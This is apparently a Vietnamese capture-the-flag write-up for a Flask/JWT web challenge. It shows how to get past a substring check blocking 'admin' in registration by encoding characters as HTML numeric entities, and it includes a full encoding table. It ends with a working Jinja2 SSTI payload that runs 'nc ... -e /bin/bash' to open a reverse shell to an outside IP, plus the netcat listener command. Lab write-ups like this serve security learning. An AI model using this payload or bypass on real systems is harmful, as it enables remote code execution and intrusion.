Bài này sử dụng jwt để render và tạo cookie.Dựa vào source code đi kèm,ta thấy không thể nào bypass được jwt,cookie chỉ có thể do server tạo ra.<b>
Mà server check dựa vào role là user hay admin,ở phần register,nếu ta điền role là admin sẽ bị chặn :<br> 
<a>
```
if "admin" in json_data:
        return jsonify(message="Blocked!")
```
</a>
Ta thấy server check một cách lỏng lẻo,nên ta sẽ bypass bằng cách dùng Unicode.

| Ký tự | Mã Unicode | Ký tự | Mã Unicode |
|-------|------------|-------|------------|
| (space) | `&#32;` | `@` | `&#64;` |
| `!` | `&#33;` | `A` | `&#65;` |
| `"` | `&#34;` | `B` | `&#66;` |
| `#` | `&#35;` | `C` | `&#67;` |
| `$` | `&#36;` | `D` | `&#68;` |
| `%` | `&#37;` | `E` | `&#69;` |
| `&` | `&#38;` | `F` | `&#70;` |
| `'` | `&#39;` | `G` | `&#71;` |
| `(` | `&#40;` | `H` | `&#72;` |
| `)` | `&#41;` | `I` | `&#73;` |
| `*` | `&#42;` | `J` | `&#74;` |
| `+` | `&#43;` | `K` | `&#75;` |
| `,` | `&#44;` | `L` | `&#76;` |
| `-` | `&#45;` | `M` | `&#77;` |
| `.` | `&#46;` | `N` | `&#78;` |
| `/` | `&#47;` | `O` | `&#79;` |
| `0` | `&#48;` | `P` | `&#80;` |
| `1` | `&#49;` | `Q` | `&#81;` |
| `2` | `&#50;` | `R` | `&#82;` |
| `3` | `&#51;` | `S` | `&#83;` |
| `4` | `&#52;` | `T` | `&#84;` |
| `5` | `&#53;` | `U` | `&#85;` |
| `6` | `&#54;` | `V` | `&#86;` |
| `7` | `&#55;` | `W` | `&#87;` |
| `8` | `&#56;` | `X` | `&#88;` |
| `9` | `&#57;` | `Y` | `&#89;` |
| `:` | `&#58;` | `Z` | `&#90;` |
| `;` | `&#59;` | `[` | `&#91;` |
| `<` | `&#60;` | `\` | `&#92;` |
| `=` | `&#61;` | `]` | `&#93;` |
| `>` | `&#62;` | `^` | `&#94;` |
| `?` | `&#63;` | `_` | `&#95;` |
| ``` ` ``` | `&#96;` | ``` ` ``` | `&#96;` |
| `a` | `&#97;` | `n` | `&#110;` |
| `b` | `&#98;` | `o` | `&#111;` |
| `c` | `&#99;` | `p` | `&#112;` |
| `d` | `&#100;` | `q` | `&#113;` |
| `e` | `&#101;` | `r` | `&#114;` |
| `f` | `&#102;` | `s` | `&#115;` |
| `g` | `&#103;` | `t` | `&#116;` |
| `h` | `&#104;` | `u` | `&#117;` |
| `i` | `&#105;` | `v` | `&#118;` |
| `j` | `&#106;` | `w` | `&#119;` |
| `k` | `&#107;` | `x` | `&#120;` |
| `l` | `&#108;` | `y` | `&#121;` |
| `m` | `&#109;` | `z` | `&#122;` |
| `{` | `&#123;` | `\|` | `&#124;` |
| `}` | `&#125;` | `~` | `&#126;` |

Sau khi bypass được check role,ta sẽ khai thác SSTI để tạo revert shell tại <a>`rendered_template = render_template_string(template)`</a> <br>
Payload: 
<a>`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc 172.26.97.248 9999 -e /bin/bash').read() }}
`</a> <br>
Lắng nghe port 9999 : `nc -lvnp 9999`
